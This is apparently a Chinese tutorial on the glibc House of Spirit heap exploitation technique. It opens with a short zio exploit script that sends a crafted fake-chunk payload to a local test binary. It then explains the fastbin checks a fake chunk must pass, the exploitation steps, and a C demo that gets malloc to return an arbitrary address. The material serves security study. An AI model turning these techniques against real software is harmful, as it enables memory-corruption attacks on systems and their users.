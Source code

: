 ```c
from zio import *
io=zio('./tst',timeout=9999)
#io.gdb_hint()
io.read_until('break')
sc='a'*32+l32(0x0)+l32(0x29)+l32(0x804A060)
#sc='abcd'
io.writeline(sc)
io.read()
```



# 0x03 House Of Spirit

## 介绍

House of Spirit 是 `the Malloc Maleficarum` 中的一种技术。

该技术的核心在于在目标位置处伪造 fastbin chunk，并将其释放，从而达到分配**指定地址**的 chunk 的目的。

要想构造 fastbin fake chunk，并且将其释放时，可以将其放入到对应的 fastbin 链表中，需要绕过一些必要的检测，即

- fake chunk 的 ISMMAP 位不能为1，因为 free 时，如果是 mmap 的 chunk，会单独处理。
- fake chunk 地址需要对齐， MALLOC_ALIGN_MASK
- fake chunk 的 size 大小需要满足对应的 fastbin 的需求，同时也得对齐。
- fake chunk 的 next chunk 的大小不能小于 `2 * SIZE_SZ`，同时也不能大于`av->system_mem` 。
- fake chunk 对应的 fastbin 链表头部不能是该 fake chunk，即不能构成 double free 的情况。

当可以通过某种方式（比如栈溢出）控制free的参数时，就可以使用House of Spirit实现利用。大概的思路是free你要任意分配的地址，然后这个地址就会在再次分配的时候被分配到，但是要任意分配的地址要提起构造好伪chunk结构。

下面详细解释一下：

## 成功利用的条件

- free的参数可控，可以指向欲分配的地址。
- 欲分配的地址要求内容可控，可以提前构造伪chunk

## 如何利用

1. 在欲分配的地址上构造伪chunk。由于堆的检验机制，**要求构造连续的两个伪chunk**。比如l32(0x0)+l32(41)+'aaaa'*8 +l32(0x0)+l32(41)
2. 控制free的参数，指向chunk的地址
3. 再次分配就可以在指定地点分配chunk了

**tips:free的地址为malloc的地址，也就是堆头+8的地址。**

## 演示dome

```c
int TstBuf[100];
int main(int argc, char *argv[])
{
    void *p;
    int i;
    TstBuf[1]=0x29;//为什么是0x29?因为32+8+FLAG位
    TstBuf[11]=0X29;//
    p=malloc(32);
    printf("正常的堆分配：%p\n",p);
    p=(int *)0x804A068;
    free(p);
    printf("free了一个任意地址\n");
    p=malloc(32);
    printf("再次分配堆，可以看到分配到了任意地址上:%p\n",p);
}
```